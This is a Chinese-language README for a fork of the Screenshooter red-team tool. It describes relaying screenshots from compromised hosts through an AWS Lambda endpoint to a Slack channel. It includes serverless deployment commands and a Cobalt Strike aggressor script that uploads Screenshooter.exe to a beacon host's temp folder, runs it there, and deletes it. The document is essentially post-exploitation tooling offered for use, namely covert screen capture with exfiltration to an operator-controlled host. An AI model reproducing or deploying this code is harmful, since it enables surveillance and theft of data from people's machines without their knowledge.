 
## 源代码 : [https://github.com/FortyNorthSecurity/Screenshooter](https://github.com/FortyNorthSecurity/Screenshooter)
## 功能
截图之后上传到slack可以直接查看：

![](screen.gif)

## 新增上传图片函数（网上抄的）
上传截图到AWS的lambda，然后转发给slack的机器人，这样截图之后可以直接在slack里面看得到。
### 部署lambda
首先修改`lambda/app.py`文件,替换自己的slack的token和channel，然后部署到AWS：
```
cd lambda
virtualenv venv -p python3
. venv/bin/activate
pip install Flask
pip freeze > requirements.txt
sls plugin install -n serverless-wsgi
sls plugin install -n serverless-python-requirements

本地测试: sls wsgi serve
远程部署: sls deploy
查看日志: sls logs -f app
```
部署之后，会有一个endpoints，上传接口是: `https://xxxx.execute-api.ap-northeast-1.amazonaws.com/dev/upload`
![](lambda.png)

替换上传[接口](https://github.com/JKme/Screenshooter/blob/master/Screenshooter/Program.cs#L203)之后编译即可使用。

PS: 直接修改源代码上传到slack也是可以的

### CNA
```
 item "screenshots" {
            $bid = $1;
            $dialog = dialog("Upload Screenshots", %(UploadPath => "C:\\Windows\\Temp\\", bid => $bid), &screenshots);
            drow_text($dialog, "UploadPath",  "path: ");
            dbutton_action($dialog, "ok");
            dialog_show($dialog);
        }

        sub screenshots {
            # switch to specify path
            bcd($bid, $3['UploadPath']);
            bsleep($bid, 0 ,0);
            $bin = $3['UploadPath'];
            bupload($bid, script_resource("/script/Screenshooter.exe"));
            bshell($bid, "$bin $+ Screenshooter.exe")
            bshell($bid, "del $bin $+ Screenshooter.exe")
            # show_message("Executing cmmand!");
        }
```
